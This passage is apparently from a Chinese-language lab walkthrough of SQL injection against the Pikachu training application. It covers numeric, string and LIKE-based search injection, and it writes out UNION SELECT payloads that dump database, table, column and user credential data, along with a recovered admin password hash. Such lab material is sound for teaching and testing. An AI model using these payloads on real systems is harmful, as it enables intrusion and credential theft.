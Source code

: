 
4. 爆值

   ```
   ?id=0 union select 1,group_concat(username,":",password) from users --+
   
   值：admin:e10adc3949ba59abbe56e057f20f883e
   ```




### 字符型注入（GET）

#### 考点：get传参，数显位数

#### 思路：

bp抓包，发现是get传参方式，拿HackBar注入

判断什么类型传参

?name=1'	//报错，信息为：''1''' ，观察发现单引号闭合的“字符串”类型

1. 爆库

   ```
   ?name=0' union select 1,database() --+
   库名：pikachu
   ```


2. 爆表

   ```
   ?name=0' union select 1,group_concat(table_name) from information_schema.tables where table_schema="pikachu" --+
   ```


3. 爆列名

   ```
   ?name=0' union select 1,group_concat(column_name) from information_schema.columns where table_name="users" --+
   ```


4. 爆值

   ```
   ?name=0' union select 1,group_concat(username,":",password) from users --+
   ```




### 搜索型注入

#### 考点：SQL语句中利用like来进行模糊判断

就可以猜测模糊查询的字段应该是**'%查询内容%'**，那么我可以构造**xxx%' or 1=1#**

#### 思路：
